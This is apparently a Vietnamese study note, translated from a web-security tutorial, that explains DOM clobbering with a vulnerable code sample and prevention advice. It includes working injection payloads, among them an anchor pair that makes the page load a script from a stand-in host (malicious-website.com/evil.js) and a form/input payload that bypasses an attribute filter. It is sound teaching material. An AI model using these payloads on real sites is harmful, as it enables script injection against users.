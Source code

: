 https://portswigger.net/web-security/dom-based/dom-clobbering

# DOM clobbering

## What is DOM clobbering?
DOM clobbering (ghi đè) là một kỹ thuật trong đó bạn đưa HTML vào một trang để thao tác với DOM và cuối cùng thay đổi hành vi của JavaScript trên trang. Việc ghi đè DOM đặc biệt hữu ích trong trường hợp `không thể thực hiện được XSS`, nhưng bạn có thể kiểm soát một số HTML trên trang có thuộc tính `id` hoặc `name` được bộ lọc HTML đưa vào white list. Hình thức ghi đè DOM phổ biến nhất sử dụng phần tử neo để ghi đè biến toàn cục, sau đó biến này sẽ được ứng dụng sử dụng theo cách không an toàn, chẳng hạn như tạo URL tập lệnh động.\
Thuật ngữ ghi đè xuất phát từ thực tế là bạn đang "ghi đè" một biến toàn cục hoặc thuộc tính của một đối tượng và thay vào đó ghi đè lên nó bằng DOM node hoặc HTML collection. Ví dụ: bạn có thể sử dụng các đối tượng DOM để ghi đè các đối tượng JavaScript khác và khai thác các tên không an toàn, chẳng hạn như gửi, để can thiệp vào hàm `submit()` của biểu mẫu.

## How to exploit DOM-clobbering vulnerabilities
Một pattern phổ biến được nhiều JavaScript dev sử dụng là:\
`var someObject = window.someObject || {};`\
Nếu bạn có thể kiểm soát một số HTML trên trang, bạn có thể ghi đè tham chiếu `someObject` bằng nút DOM, chẳng hạn như một neo. Hãy xem đoạn code:\
```
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```
Để khai thác mã dễ bị tấn công này, bạn có thể chèn đoạn HTML sau để chặn tham chiếu `someObject` bằng phần tử neo:\
`<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>`\
Vì hai điểm neo sử dụng cùng một ID nên DOM sẽ nhóm chúng lại với nhau trong một DOM collection. Sau đó, vectơ ghi đè DOM sẽ ghi đè tham chiếu `someObject` bằng DOM collection này. Thuộc tính `name` được sử dụng trên phần tử neo cuối cùng để ghi đè thuộc tính `url` của đối tượng `someObject`, trỏ đến một tập lệnh bên ngoài.\
Một kỹ thuật phổ biến khác là sử dụng một phần tử `form` cùng với một phần tử chẳng hạn như `input` cho các thuộc tính DOM bị ghi đè. Ví dụ: việc ghi đè thuộc tính `attributes` cho phép bạn bỏ qua các bộ lọc phía máy khách sử dụng thuộc tính đó trong logic của chúng. Mặc dù bộ lọc sẽ liệt kê thuộc tính `attributes`, nhưng nó sẽ không thực sự xóa bất kỳ thuộc tính nào vì thuộc tính đó đã bị ghi đè bằng DOM node. Do đó, bạn sẽ có thể đưa vào các thuộc tính độc hại mà thông thường sẽ được lọc ra. Ví dụ, hãy xem xét việc tiêm sau:\
`<form onclick=alert(1)><input id=attributes>Click me`\
Trong trường hợp này, bộ lọc phía máy khách sẽ duyệt qua DOM và gặp phần tử `form` trong whitelist. Thông thường, bộ lọc sẽ lặp qua thuộc tính `atrributes` của thành phần `form` và xóa mọi thuộc tính nằm trong black list. Tuy nhiên, do thuộc tính `attributes` đã bị ghi đè bằng phần tử `input` nên bộ lọc sẽ lặp qua phần tử `input`. Vì phần tử `input` có độ dài không xác định nên các điều kiện cho vòng lặp for của bộ lọc (ví dụ: i < element.attributes.length) không được đáp ứng và thay vào đó, bộ lọc chỉ chuyển sang phần tử tiếp theo. Điều này dẫn đến sự kiện `onclick` bị bộ lọc bỏ qua hoàn toàn, sau đó cho phép gọi hàm `notification()` trong trình duyệt.
## How to prevent DOM-clobbering attacks
Trong thuật ngữ đơn giản nhất, bạn có thể ngăn chặn các cuộc tấn công chặn DOM bằng cách thực hiện kiểm tra để đảm bảo rằng các đối tượng hoặc chức năng đúng như những gì bạn mong đợi. Ví dụ: bạn có thể kiểm tra xem thuộc tính thuộc tính của nút DOM có thực sự là một phiên bản của `NamedNodeMap` hay không. Điều này đảm bảo rằng thuộc tính là thuộc tính `attributes` chứ không phải phần tử HTML bị ghi đè.\
Bạn cũng nên tránh viết mã tham chiếu biến toàn cục kết hợp với toán tử logic OR `||`, vì điều này có thể dẫn đến các lỗ hổng ghi đè DOM.\
Tóm lại:
- Kiểm tra xem các đối tượng và chức năng có hợp pháp không. Nếu bạn đang lọc DOM, hãy đảm bảo rằng bạn kiểm tra xem đối tượng hoặc hàm đó có phải là nút DOM hay không.
- Tránh các mẫu mã xấu. Nên tránh sử dụng các biến toàn cục kết hợp với toán tử logic OR.
- Sử dụng thư viện đã được kiểm tra kỹ lưỡng, chẳng hạn như DOMPurify, để giải quyết các lỗ hổng chặn DOM.








